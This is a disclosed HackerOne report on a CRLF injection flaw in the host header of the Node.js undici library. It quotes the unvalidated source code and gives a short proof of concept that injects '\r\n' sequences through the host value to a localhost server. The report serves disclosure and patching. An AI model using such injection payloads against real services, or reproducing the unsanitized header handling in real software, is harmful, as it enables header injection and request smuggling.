 # CRLF Injection in Nodejs ‘undici’ via host

## Report Details
- **Report ID**: 1878489
- **URL**: https://hackerone.com/reports/1878489
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-02-18T14:54:34.962Z
- **Disclosed**: 2023-03-29T21:15:31.973Z

## Reporter
- **Username**: timon8
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Summary: 
undici library should be protects HTTP headers from CRLF injection vulnerabilities. However, CRLF injection exists in the ‘host’ header of undici.request api.
Description:
like https://hackerone.com/reports/1664019
Source code:
lib/core/request.js:296

```javascript
function processHeader (request, key, val) {
  if (val && (typeof val === 'object' && !Array.isArray(val))) {
    throw new InvalidArgumentError(`invalid ${key} header`)
  } else if (val === undefined) {
    return
  }

  if (
    request.host === null &&
    key.length === 4 &&
    key.toLowerCase() === 'host'
  ) {
    // Consumed by Client
    request.host = val // without headerCharRegex.exec(val)
  } else if (
    request.contentLength === null &&
...
```
Example:
```javascript
import { request } from 'undici'

const unsanitizedContentTypeInput =  '12 \r\n\r\naaa:aaa'

const {
    statusCode,
    headers,
    trailers,
    body
} = await request('http://127.0.0.1:23333', {
    method: 'GET',
    headers: {
        'content-type': 'application/json',
        'host': unsanitizedContentTypeInput
    }
})

console.log('response received', statusCode)
console.log('headers', headers)

for await (const data of body) {
    console.log('data', data)
}

console.log('trailers', trailers)

```
{F2182450}
I have submitted the report： https://hackerone.com/reports/1820955
Security Releases: https://nodejs.org/en/blog/vulnerability/february-2023-security-releases/#fetch-api-in-node-js-did-not-protect-against-crlf-injection-in-host-headers-medium-cve-2023-23936
Security Advisory: https://github.com/nodejs/undici/security/advisories/GHSA-5r9g-qh6m-jxff

## Impact

All versions of the 19.x, 18.x and 16.x release lines.

## Attachments
- image.png
